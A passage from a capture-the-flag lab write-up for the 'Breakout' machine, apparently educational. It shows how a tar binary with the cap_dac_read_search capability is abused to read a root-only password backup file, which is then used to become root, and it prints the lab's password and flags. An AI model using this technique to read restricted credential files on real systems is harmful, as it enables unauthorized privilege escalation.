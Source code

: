 The `cap_dac_read_search=ep` capability on `/home/cyber/tar` is critical. It means the `tar` binary can bypass discretionary access control (DAC) checks for reading and searching files, effectively allowing it to read any file on the system, even if `cyber` doesn't have direct read permissions.

I attempted to read the `user.txt` file in the current directory:

```shellscript
cyber@breakout:~$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

This was the user flag.

Now, to escalate privileges to root, I needed to find a way to read a sensitive file like `/etc/shadow` or a root flag. After trying various common root flag locations, I looked for backup files.

I found a promising backup file: `/var/backups/.old_pass.bak`.

```shellscript
cyber@breakout:~/root$ ls -la /var/backups/.old_pass.bak
-rw------- 1 root root 17 Oct 20  2021 /var/backups/.old_pass.bak
```

Since `tar` had `cap_dac_read_search`, I could use it to read the content of this file, even though it was owned by `root` and had restrictive permissions.

```shellscript
cyber@breakout:~/root$ /home/cyber/tar xf /var/backups/.old_pass.bak -I "/bin/bash -c 'cat 1>&2'"
Ts&4&YurgtRX(=~h
```

This command used the `tar` binary with its capabilities to extract the content of `/var/backups/.old_pass.bak` and pipe it to `cat`, revealing the password: `Ts&4&YurgtRX(=~h`.

Finally, I used this password to switch to the `root` user:

```shellscript
cyber@breakout:~/root$ su root
Password: Ts&4&YurgtRX(=~h
root@breakout:/home/cyber/root# id
uid=0(root) gid=0(root) groups=0(root)
```

I had successfully gained root access!

### Root Flag

With root privileges, I navigated to the `/root` directory to find the final flag.

```shellscript
root@breakout:/home/cyber/root# cd /root
root@breakout:~# ls
rOOt.txt
root@breakout:~# cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}
Author: Icex64 & Empire Cybersecurity
```

**Root Flag:** `3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}`
